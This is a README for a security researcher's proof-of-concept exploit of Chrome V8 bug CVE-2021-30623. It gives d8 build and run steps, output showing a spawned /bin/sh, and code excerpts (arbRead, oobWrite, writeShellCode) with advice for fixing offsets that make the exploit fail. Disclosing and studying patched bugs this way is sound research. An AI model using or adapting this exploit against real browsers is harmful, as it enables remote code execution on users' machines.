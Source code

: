 ## Chrome in-the-wild bug CVE-2021-30623

The analysis of this bug can be found [here](https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_30623). This is a Chrome bug that is reported by an anonymous researcher and was believed to be exploited in the wild.

The exploit here is tested on `v8` version 9.3.345.16 (commit `632e6e7`), which is the version shipped with Chrome 93.0.4577.63, the one before the bug is fixed, on Ubuntu 20.04. I have not tested it on Chrome itself.

To test, check out `v8` at commit `632e6e7` and compile with the default settings using `tools/dev/gm.py x64.release`. Then open the file `poc.js` with `d8`:

```
./d8 poc.js
```

On Ubuntu 20.04, it should call `execve("/bin/sh")` to spawn a new process:

```
./d8 poc.js
instance: 81d42dd
elements: 804abd9
rwx page address: 22c70c88b000
intArray addr: 8105d79
intBackingStore: 56498ceb25e0
$
```

Shell code may need changing on other platforms.

The exploit is very reliable, however, when testing, I notice that some offsets appear to be sensitive to small changes in the file (even adding comments may cause problem), which would cause the exploit to fail. This only happens when the file is modified and usually manifests itself with some garbage values of the addresses, for example:

```
instance: 81d42dd
elements: 800222d
rwx page address: 3ff199999999999a
intArray addr: 81067e1
intBackingStore: 3ff199999999999a
```

In the above, address of `rwx page` and `initBackingStore` are clearly incorrect. The root cause seems to be an incorrect `elements` store value. (`800222d` is not a valid value) This can usually be fixed by changing the following lines regarding the address of elements:

```
function arbRead(addr) {
  [elements, addr1] = ftoi32(addrs[1]);  //<---- change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(addr,addr1));          //<---- change to   oobWrite(i32tof(addr1,addr));
  return writeArr[0];
}
...
function writeShellCode(rwxAddr, shellArr) {
  var intArr = new Uint8Array(400);
  var intArrAddr = addrOf(intArr);
  console.log("intArray addr: " + intArrAddr.toString(16));
  var intBackingStore = ftoi(arbRead(intArrAddr + 0x20));
  console.log("intBackingStore: " + ftoi(arbRead(intArrAddr + 0x20)).toString(16));

  [elements, addr1] = ftoi32(addrs[1]);              //<------ change this to [addr1, elements] = ftoi32(addrs[1]);
  oobWrite(i32tof(intArrAddr + 0x20, addr1));        //<------ change this to oobWrite(i32tof(addr1, intArrAddr + 0x20));
  ...
}
...
var elementsAddr = ftoi32(addrs[1])[0];             //<------- change this to var elementsAddr = ftoi32(addrs[1])[1];
```

This, however, does not affect the reliability of the exploit as the offsets are stable as long as the file is fixed, but it may cause issues if the poc is modified. I do not know what causes this, but the exploit can probably be made more robust against this by matching patterns in memory instead of relying on fixed offsets.
